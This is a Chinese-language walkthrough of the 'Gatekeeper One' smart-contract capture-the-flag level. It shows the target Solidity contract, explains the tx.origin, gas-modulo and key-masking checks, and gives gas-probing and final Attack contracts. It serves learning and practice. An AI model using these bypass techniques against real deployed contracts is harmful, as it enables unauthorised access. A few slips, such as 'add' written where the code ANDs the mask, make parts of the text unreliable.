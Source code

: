 # Gatekeeper One
Gatekeeper One這一關需要我們成爲合約中的entrant，是一個非常考驗綜合知識的一關，有一定的難度，讓我們看一下代碼。

## 合约代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
## 代碼分析
要成功通過這一關，我們需要通過三個modifier，分別是gateOne, gateTwo, gateThree。

### gateOne
gateOne的要求很簡單，需要msg.sender和tx.origin不同。我們在Telephone那一關其實已經聊過這個問題，只需要使用合約呼叫enter函數即可完成這個要求。

### gateThree
我們先説gateThree，gateThree有三個要求，分別是：
1. uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
2. uint32(uint64(_gateKey)) != uint64(_gateKey)
3. uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)

首先_gatekey是bytes8, 假設uint64(_gateKey)將會是0x12345678abcddcba,(僅用作説明這個十六位進制數的長度)。第一個要求中，先將uint64(_gateKey)做uint32轉換，由於是高位轉低位，所以會保存低位，及0xabcddcba。而將uint64(_gateKey)做uint16轉換，則結果是0xdcba。如果要讓這兩個結果相同，那我們只能將abcd的部分設爲0000。

第二個要求中，需要我們保證經過uint32轉換后的uint64(_gateKey)發生變化，那麽只需要我們在高位的前8個字元不是0即可。

第三個要求中，要求我們先將tx.origin做uint160轉換，因爲是低位轉高位，所以會在高位補0。之後做uint16轉換，是高位轉低位，保留低位后，會得到0xdcba,那麽這個要求其實其實和第一個要求相同，只是明確了我們最低位4個字元的值。

那麽我可以通過AND操作，將tx.orgin轉換為bytes8，然後加上0xFFFFFFFF0000FFFF,就是我們需要輸入的_gatekey。

### gateTwo
需要我們本次交易消耗的gas的剩餘量是可以被8191整除。假設本次交易消耗的gas是n，那麽總共gas設定為8191*x+n，x為任意倍數。我們可以用Remix IDE的debug來測試gasleft的回傳數值。

我們先寫一個簡單的攻擊代碼來進行測試，當然我們也可以使用hardhat的本地測試環境，只是在這裏我們還是用Remix IDE接入測試網來查看。
```
pragma solidity ^0.8.0;
interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack {
    event Failed (bytes reason, uint256 gas);

    
    function attack(address _target) external {
      IGatekeeperOne target = IGatekeeperOne(_target);
      uint256 gas = 100000;
      for(uint256 i; i< 8191; ++i) {
        gas += 1;

        try target.enter{gas:gas}('0x01'){}
        catch (bytes memory reason) {
          emit Failed(reason, gas);
        }
      }
    }
}
```
根據回傳的log之後，我們可以瞭解到所需要使用的gas。需要注意的是，這個gas會因爲網絡和編譯器版本的不同而有所差異，所以需要自己進行測試。在這裏我們的gas為106739。

## 攻擊代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack {
    function attack(address target) public {
      bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
      IGatekeeperOne(target).enter{gas:106739}(key);
    }
}
```
## 攻擊過程
1. 部署測試合約，調用attack函數，傳入目標合約地址，交易完成后，從log中獲取我們所需要用的gas
2. 利用找到的gas數值部署攻擊合約，調用attack函數，傳入目標合約地址，任務完成。


